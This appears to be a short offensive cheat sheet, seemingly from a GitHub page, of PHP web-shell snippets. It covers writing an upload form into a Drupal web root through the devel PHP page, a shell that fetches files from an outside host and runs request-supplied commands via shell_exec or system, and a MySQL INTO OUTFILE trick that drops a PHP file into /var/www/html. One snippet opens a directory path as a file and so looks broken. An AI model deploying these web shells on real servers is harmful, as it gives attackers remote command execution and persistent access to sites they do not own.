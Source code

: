## PHP

Create a file upload page at drupal.site/devel/php
```
$fp = fopen('/var/www/html/', 'w');
fwrite($fp, '<!DOCTYPE html><html><head><title>Upload</title></head><body><form enctype="multipart/form-data" action="upload.php" method="POST"> <p>Choose file</p> <input type="file" name="uploaded_file"></input><br /><input type="submit" value="Upload"></input> </form></body></html><?PHP if(!empty($_FILES[\'uploaded_file\'])) { $path = "./"; $path = $path . basename( $_FILES[\'uploaded_file\'][\'name\']); if(move_uploaded_file($_FILES[\'uploaded_file\'][\'tmp_name\'], $path)) {  echo "The file ". basename( $_FILES[\'uploaded_file\'][\'name\']). " has been uploaded"; } else{ echo "There was an error uploading the file, please try again!"; } }?>');
fclose($fp);
```


### File upload and command execution
If `shell_exec` does not work, try `system`

```php
<?php if (isset($_REQUEST['fupload'])) {
	file_put_contents($_REQUEST['fupload'],
	file_get_contents('http://10.0.0.1/' . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
	echo '<pre>' . shell_exec($_REQUEST['fexec']) . '</pre>';
} ?>
```

### Echo IP Address
`<?php echo $_SERVER["REMOTE_ADDR"];`

### MySQL
`SELECT "<?phpinfo()" into OUTFILE "/var/www/html/infox.php"`
